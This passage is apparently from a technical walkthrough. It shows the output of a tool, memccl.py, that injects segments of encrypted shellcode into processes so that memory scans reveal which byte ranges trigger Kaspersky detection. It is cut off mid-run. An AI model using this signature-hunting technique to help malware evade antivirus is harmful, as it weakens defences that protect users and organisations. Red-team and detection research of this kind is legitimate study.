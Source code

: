 ```
Shellcode injection successful, injected address: 0x2167b8c0000, PID: 9696
All chunks have been injected, please scan using antivirus software or memory scanning tools...
Press Enter to continue after scanning...
[√] Process 9696 is alive from 60 to 70
```

Continuing from the previous steps, we can determine that the signature code is likely in the range of 60-70 because setting this range to zero prevents Kaspersky from detecting anything. Following this approach, handle the second and third segments:

```
python memccl.py out.part2.170-340.enc 9
Shellcode decryption successful, size: 170 bytes
=== Round 1 testing ===
Enter start position: 0
Enter end position: 170
Enter initial number of chunks: 3
Shellcode injection successful, injected address: 0x24a90cf0000, PID: 9336
Shellcode injection successful, injected address: 0x20c06ee0000, PID: 6500
Shellcode injection successful, injected address: 0x1a1fde00000, PID: 3820
All chunks have been injected, please scan using antivirus software or memory scanning tools...
Press Enter to continue after scanning...
[×] Process 9336 is dead from 0 to 56
[√] Process 6500 is alive from 56 to 112
[√] Process 3820 is alive from 112 to 168
=== Round 2 testing ===
Enter start position: 56
Enter end position: 168
Enter initial number of chunks: 3
Shellcode injection successful, injected address: 0x206996c0000, PID: 7784
Shellcode injection successful, injected address: 0x2cff8160000, PID: 1800
Shellcode injection successful, injected address: 0x2cf0b940000, PID: 5516
All chunks have been injected, please scan using antivirus software or memory scanning tools...
Press Enter to continue after scanning...
[√] Process 7784 is alive from 56 to 93
[√] Process 1800 is alive from 93 to 130
[√] Process 5516 is alive from 130 to 167
=== Round 3 testing ===
Enter start position: 56
Enter end position: 168
Enter initial number of chunks: 2
Shellcode injection successful, injected address: 0x28691650000, PID: 7212
Shellcode injection successful, injected address: 0x26e94990000, PID: 2056
All chunks have been injected, please scan using antivirus software or memory scanning tools...
Press Enter to continue after scanning...
[√] Process 7212 is alive from 56 to 112
[√] Process 2056 is alive from 112 to 168
=== Round 4 testing ===
Enter start position: 80
Enter end position: 160
Enter initial number of chunks: 1
Shellcode injection successful, injected address: 0x20fa1a60000, PID: 4088
All chunks have been injected, please scan using antivirus software or memory scanning tools...
Press Enter to continue after scanning...
[√] Process 4088 is alive from 80 to 160
=== Round 5 testing ===
Enter start position: 100
Enter end position: 160
Enter initial number of chunks: 1
Shellcode injection successful, injected address: 0x1d093a80000, PID: 7160
All chunks have been injected, please scan using antivirus software or memory scanning tools...
Press Enter to continue after scanning...
[√] Process 7160 is alive from 100 to 160
=== Round 6 testing ===
```